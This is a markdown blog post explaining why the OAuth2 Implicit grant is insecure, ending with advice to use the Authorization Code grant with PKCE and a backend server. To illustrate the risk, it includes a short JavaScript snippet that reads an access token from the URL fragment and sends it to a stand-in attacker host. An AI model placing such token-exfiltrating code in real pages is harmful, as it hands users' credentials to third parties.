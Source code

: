 ```yaml
---
layout: blog-post
title: What's Wrong With the Implicit Grant?
description: OAuth2 specifies an Implicit grant. What's wrong with using it?
author: Brian Pontarelli
image: blogs/securing-golang-microservice-jwt/securing-a-go-microservice-with-jwt-header-image.png
category: blog
tags: client-javascript
excerpt_separator: "<!--more-->"
---
```

The Implicit grant is part of the OAuth 2 RFC, but is [one of the features omitted in the OAuth 2.1 specification](/learn/expert-advice/oauth/differences-between-oauth-2-oauth-2-1/). With this grant, you don't have to write server side code. Instead of having to exchange an authorization code for an access token, you are provided an access token on redirect.

<!--more-->

This is convenient if you are working in the JAMstack or in another situation where you don't want to run a server. 

However, it is horribly insecure, broken, deprecated, and should never, ever be used (ever). Okay, maybe that's being a bit dramatic, but please don't use this grant. The good folks behind the OAuth 2.1 draft agree, which is why they left it out of that new specification.

> The Implicit grant ("response_type=token") is omitted from this specification as per Section 2.1.2 of OAuth 2.0 Security Best Current Practices

## Run away

Instead of showing you how to use this grant, let's discuss why you should avoid it.

{% include _image.liquid src="/assets/img/blogs/avoid-implicit-grant/Rabbitattack.jpg" alt="Just a rabbit?" class="img-fluid" figure=false %}

The reason that it has been removed is that it skips an important step that allows you to secure the tokens you receive from the OAuth server. This step occurs when your application backend makes the call to the Token endpoint to retrieve the tokens.

Unlike the [Authorization Code grant](/docs/v1/tech/oauth/#example-authorization-code-grant), the Implicit grant does not redirect the browser back to your application backend with an Authorization Code. Instead, it puts the access token directly on the URL as part of the redirect. These URLs look like this:

`https://piedpiper.com/#token-goes-here`

The token is added to the redirect URL after the `#` symbol, which means it is technically the fragment portion of the URL. What this means is that wherever the OAuth server redirects the browser to, the access token is accessible to any code running in the browser. In other words, to basically everyone. 

To be more precise, the access token is accessible to any and all JavaScript that is running in the browser (including third party libraries). Since this token allows the browser to make API calls and web requests on behalf of the user, having this token be accessible to third-party code is extremely dangerous.

Let's take a dummy example of a single-page web application that uses the Implicit grant:

```html
// This is dummy code for a SPA that uses the access token
<html>
<head>
  <script type="text/javascript" src="/my-spa-code-1.0.0.js"></script>
  <script type="text/javascript" src="https://some-third-party-server.com/a-library-found-online-that-looked-cool-0.42.0.js"></script>
</head>
<body>
...
</body>
```

This HTML includes two JavaScript libraries:

* The code for the application itself (`my-spa-code-1.0.0.js`).
* A library we found online that did something cool and we just pulled it in (`a-library-found-online-that-looked-cool-0.42.0.js`).

Let's assume that our code is 100% secure and we don't have to worry about it. The issue here is that the library we pulled in is an unknown quantity. 

It might include other libraries as well. Remember that the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with more `<script>` tags. Therefore, we have very little chance of ensuring that every other line of code from third-party libraries is secure. 

After all, **do you** audit every javascript library and every dependency of every library every time you deploy your application? 

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend that no one ever use this grant.

## How to correctly use OAuth in a SPA

Well, if you are building an awesome React, Angular, Vue or other single page application, what should you use instead of the Implicit grant?

Use the Authorization Code grant. It's secure, safe, well tested, standardized and keeps tokens out of the URL.

In addition to using that grant, take these steps to secure your SPA OAuth flow:

* Use PKCE in your SPA to make sure your application, which can't maintain a secure client secret, is not susceptible to an authorization code interception attack.
* Run a server. It needn't be complicated. In fact, it can be as simple as a few lines of node to exchange the authorization code for an access token. Here's [an example Node application](https://github.com/fusionauth/fusionauth-example-node). This is also known as the BFF, or Backend For a Frontend, pattern.
* Store access tokens out of reach of JavaScript in the browser. You could store them in a server side session, or in `secure`, `HttpOnly` cookies.

Happy coding!
